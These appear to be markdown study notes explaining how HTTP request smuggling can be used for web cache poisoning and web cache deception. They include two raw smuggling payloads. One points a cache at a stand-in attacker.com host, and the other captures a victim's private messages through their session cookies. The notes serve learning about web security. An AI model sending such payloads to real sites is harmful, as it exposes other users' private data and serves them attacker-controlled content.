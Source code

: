 
## Using HTTP request smuggling to perform Web Cache Poisoning 
- it might possible to exploit HTTP request smuggling to perform a `web cache poisoning` attack. 
- if any part of the `front-end` infrastructure performs caching of content, then it might be possible to poison the cache with off-site response.
- this make attack persistent, affecting any user who subsequently request the affected URL
```js
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 59
Transfer-Encoding: chunked

0


GET /home HTTP/1.1
Host: attacker.com
foo: 
```
- the smuggled request reaches the `back-end` server, which response as before with the off-site redirect. 


## using HTTP Request smuggling To perform Web Cache Deception
#### Difference between web cache Poisoning and Web cache Deception
- **web cache Poisoning:** the attacker cause the application to store some malicious content in the cache, and this content is served from the cache to other application users.
- **web cache deception:** the attacker cause the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

in this variant, the attacker smuggle a request that returns some sensitive user-specific content.
`Example:`
```js
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 34
Transfer-Encoding: chunked


0


GET /private/message HTTP/1.1
FOO: x
```

- in next Request from another user that is forwarded to the back-end server will be appended to the smuggled request including session cookies and the other headers
- the back-end server responds to this request in the normal way. The URL in the request is for the user's private messages and the request is processed in the context of the victim user's session. the front-end server caches this response against what it believes it the URL in the second request.
- attacker visits the static URL and receives the sensitive content that is returned from the cache.
- An important caveat here is that the attacker doesn't know the URL against which the sensitive content will be cached, since this will be whatever URL the victim user happened to be requesting when the smuggled request took effect. The attacker might need to fetch a large number of static URLs to discover the captured content.
